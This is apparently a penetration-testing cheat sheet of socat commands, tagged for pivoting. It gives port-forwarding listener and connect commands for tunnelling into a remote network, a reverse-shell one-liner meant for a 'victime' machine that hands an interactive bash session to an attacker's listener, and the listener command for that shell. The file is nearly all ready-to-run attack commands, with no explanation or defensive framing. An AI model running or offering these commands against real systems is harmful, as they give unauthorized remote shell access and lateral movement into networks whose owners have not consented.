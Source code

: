 # socat

% socat

## socat port forwarding listener (on local machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#plateform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

